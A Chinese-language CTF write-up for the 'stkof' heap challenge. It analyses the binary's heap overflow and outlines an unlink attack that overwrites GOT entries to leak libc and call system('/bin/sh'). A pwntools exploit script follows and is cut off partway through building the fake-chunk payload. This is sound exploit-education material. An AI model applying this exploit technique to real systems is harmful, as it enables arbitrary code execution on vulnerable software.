 程序存在 4 个功能，经过 IDA 分析后可以分析功能如下

- Malloc：输入 size，分配 size 大小的内存，并在 bss 段记录对应 chunk 的指针，假设其为 bss_heap
- Read：根据指定索引，向分配的内存处读入数据，数据长度可控，这里存在堆溢出的情况
- Free：根据指定索引，释放已经分配的内存块
- useless：无用

### 利用

在前面先分配一个 chunk 来把缓冲区分配完毕，以免影响之后的操作。

由于程序本身没有 leak，要想执行 system 等函数，我们的首要目的还是先构造 leak，基本思路如下

- 利用 unlink 修改 `bss_heap[2]` 为 `&bss_heap[2]-0x18`
- 利用编辑功能修改 `bss_heap[0]` 为 `free@got` 地址，同时修改 `bss_heap[1]` 为 `puts@got` 地址，`bss_heap[2]` 为 `atoi@got` 地址
- 修改 free@got 为 puts@plt 的地址，从而当再次调用 free 函数时，即可直接调用 puts 函数。这样就可以泄漏函数内容
- `free bss_heap[2]`，即泄漏 puts@got 内容，从而知道 system 函数地址以及 libc 中 /bin/sh 地址
- 修改 atoi@got 为 system 函数地址，再次调用时，输入 /bin/sh 地址即可

### Exploit

> 注意，当chunk空闲时，fd，bk才生效（二者位于chunk不空闲时的user data域）

```python
from pwn import *
from LibcSearcher import *
context.arch='amd64'
# context.log_level="DEBUG"
context.log_level="INFO"

p = process('./stkof')
elf = ELF('./stkof',checksec=False)
bss_heap = 0x602140

def read(content,size,index):
    p.sendline('2')
    p.sendline(str(index))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n',timeout=1)

def malloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n',timeout=1)

def free(index):
    p.sendline('3')
    p.sendline(str(index))

def debug():
    gdb.attach(p)
    pause()

# trigger to malloc buffer for io function
malloc(0x100)   # index 1
# begin
malloc(0x30)    # index 2
# small chunk size in order to trigger unlink
malloc(0x80)    # index 3
# debug()

# a fake chunk at global[2]=head+16 who's size is 0x20
payload = p64(0) # prev_szie
payload += p64(0x20) # size
```